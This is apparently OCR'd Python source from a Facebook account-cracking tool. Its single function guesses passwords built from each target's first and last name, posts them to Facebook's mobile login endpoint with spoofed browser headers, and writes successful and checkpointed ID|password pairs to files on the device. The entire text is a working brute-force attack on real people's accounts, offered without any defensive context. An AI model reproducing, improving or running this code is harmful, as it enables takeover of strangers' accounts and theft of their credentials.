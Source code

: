 def m3(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [FOF] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980',  'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'same-origin', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Fof=session.cookies.get_dict().keys()
                        if "c_user" in Fof:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [FOF\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                #cek_apk(session,coki)
                                #print(f'\033[1;36m [Cookie]\033[1;37m : '+coki)
                                open(f'/sdcard/FOF•OK•M3.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Fof:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [FOF•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/FOF•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
